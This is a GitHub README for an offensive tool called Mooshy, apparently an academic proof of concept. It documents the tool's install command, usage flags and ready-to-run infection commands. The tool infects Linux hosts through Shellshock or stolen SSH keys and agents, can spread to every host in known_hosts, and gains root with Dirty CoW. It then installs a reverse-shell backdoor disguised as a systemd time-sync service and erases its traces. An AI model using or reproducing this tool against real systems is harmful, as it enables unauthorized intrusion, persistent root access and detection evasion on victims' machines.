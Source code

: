 [![Build Status](https://travis-ci.org/rvolosatovs/mooshy.svg?branch=master)](https://travis-ci.org/rvolosatovs/mooshy)

# Mooshy

## Description
Mooshy is a tool that automates the infection and execution of arbitrary code on remote Linux systems. It infects the victim machine exploiting either a [ShellShock Bash vulnerability](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) or by using a password-less SSH key or a running SSH agent. Once access to the machine is granted, [Dirty CoW](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) exploit is used to start a SUID root shell, through which a backdoor is installed on the system, masked as a systemd service file.

[![asciicast](https://asciinema.org/a/176277.png)](https://asciinema.org/a/176277)

## Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

## Development:
```sh
    make
```

## Generation of the report:
```sh
    make report
```

\pagebreak

## Usage:
_Default values of some variables are environment-dependent_
```
$ mooshy -help
  Usage of mooshy:
    -addr string
      	The lucky guy(in case of Shell Shock - endpoint)
    -c string
      	Command to run before shell start
    -moosh string
      	Path to moosh. If empty - uses the one from https://github.com/rvolosatovs/mooshy/releases/latest
    -shellShock
      	Use Shell Shock for the infection
    -ssh
      	Use SSH for the infection
    -sshAgent string
      	Path to SSH agent socket for SSH infection (default "/run/user/1000/gnupg/S.gpg-agent.ssh")
    -sshKey string
      	Path to (passwordless) SSH private key for SSH infection (default "/home/rvolosatovs/.ssh/id_rsa")
    -sshKnown string
      	Path to SSH known_hosts file for SSH infection (default "/home/rvolosatovs/.ssh/known_hosts")
    -sshUser string
      	Username to connect as using SSH infection (default "rvolosatovs")
    -tcp string
      	TCP address to listen on in execution mode (default ":0")
    -token string
      	Github token to use
    -useSSHAgent
      	Use SSH agent for SSH infection
    -useSSHKey
      	Use (passwordless) SSH private key for SSH infection
    -useSSHKnown
      	Infect all hosts in SSH known_hosts file using SSH infection
    -wipe
      	Wipe the backdoor in execution mode (The self-destructing script will be appended to pre)
```

\pagebreak

# Mechanism of action
The tool operates in 2 modes - infection and execution.

## Infection mode
```sh
   mooshy -ssh -useSSHAgent -sshUser averagejoe -addr 192.168.56.102 # Specific SSH host
   mooshy -ssh -useSSHAgent -useSSHKnown -sshKnown known_hosts -sshUser averagejoe # SSH known_hosts
   mooshy -shellShock -addr http://192.168.56.102/cgi-bin/index.cgi # ShellShock
```
- Connects to the victim machine(s) using either of:
    - SSH:
        - Connects to the `addr` specified and/or all hosts in `known_hosts` file, using either a running SSH agent(with `SSH_AUTH_SOCK` set in environment) or using a password-less private key, which provides access to the machine(s).
        - Copies the `moosh` binary to each victim using SFTP.
    - Shellshock:
        - Sends a GET request to `addr` specified, with embedded script in `User-Agent` header, which downloads `moosh` binary using `curl` and makes it executable.
- Executes the `moosh` binary on the victim machine, which:
    - Exploits [Linux kernel vulnerability(CVE-2016-5195)](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) (PoC uses vanilla Ubuntu 16.04 LTS VM) to overwrite a SUID binary(defaults `/usr/bin/passwd`) by shellcode, which sets `/proc/sys/vm/dirty_writeback_centisecs` to `0` and `exec`s `/bin/bash` with `root` privileges(it's a SUID binary owned by `root`). Note, that setting `/proc/sys/vm/dirty_writeback_centisecs` to `0` is required to prevent kernel panic, which would otherwise occur shortly after the execution of exploit due to an invalid state reached, which is triggered by the exploit.
    - Using the "suid root shell" installs the backdoor on the system.
    - Creates, enables and starts a `systemd-timesync` systemd service, which launches the backdoor service.
    - Restores the contents of the original binary in it's location and removes all temporary files.

\pagebreak

## Execution mode
```sh
   mooshy -addr 192.168.56.102:22 # The port should be any open port
```
- Connects to the backdoor running on the infected victim and returns a reverse `root` shell.

\pagebreak

# Attack analysis

## Dirty CoW exploit
>  A race condition was found in the way Linux kernel's memory subsystem
>  handled breakage of the read only private mappings COW situation on
>  write access.
>
>  An unprivileged local user could use this flaw to gain
>  write access to otherwise read only memory mappings and thus increase
>  their privileges on the system. ([Source](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

## Shellshock
> A flaw was found in the way Bash evaluated certain specially crafted environment variables. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue. ([Source](https://access.redhat.com/security/cve/cve-2014-6271))

## Infection
Once root access is gained through the Dirty CoW exploit, the machine is infected with a persistent backdoor. The binary code for the backdoor is embedded in the `moosh` binary. It creates and enables a new systemd service in `/lib/systemd/system/systemd-timesync.service` and installs the binary as `/lib/sytemd/systemd-timesync`. This name was chosen for its similarity to the existing `systemd-timesyncd` service, to hopefully avoid detection from unsuspecting users. All traces of the exploit are then erased, leaving only the newly installed service. 

\pagebreak

## Backdoor
The `systemd-timesync` service creates a raw socket that listens to TCP requests. The raw socket allows the backdoor to listen on all TCP ports with a single socket, while the TCP payload is still handled by the kernel so that normal service by the victim machine is unaffected. When a packet with a specific payload is received, it triggers the backdoor to open a reverse shell to the attacker's machine. The payload consists of a sentinel value, followed by the port number on which the attacker is listening for a reverse shell connection.

The backdoor then opens a new TCP connection to the source IP of the triggering packet, using the specified port. Since the backdoor is run as a systemd service, it has no TTY attached. Instead, it uses the `script` executable, which is installed on linux by default, to create a PTY and connect it to `/bin/bash`. This opens a fully interactive root shell on the victim's machine, whose input and output are then connected to the opened TCP connection. 

## Buffer overflow
A buffer overflow occurs when more data is put in a buffer than it can hold, leading to overwrite adjacent memory locations being overwritten. This problem can be abused to alter the return address and inject code on the stack.

To illustrate this concept, a vulnerable HTTP daemon (`hHTTPd`) is supplied as a proof of concept. It stores the HTTP request and reflects the path back to the client in the message body. However, if the user requests a path that is too long, it overflows the request buffer. This vulnerability is exploited to gain code execution. _At the moment, this is not implemented._

# Technical setup
The PoC uses vanilla Ubuntu 16.04 LTS with [Bash version 4.3-6](https://ubuntu.pkgs.org/14.04/ubuntu-main-amd64/bash_4.3-6ubuntu1_amd64.deb.html), OpenSSH service and Apache2 web server running.
Setup script can be found at `./setup.sh`.
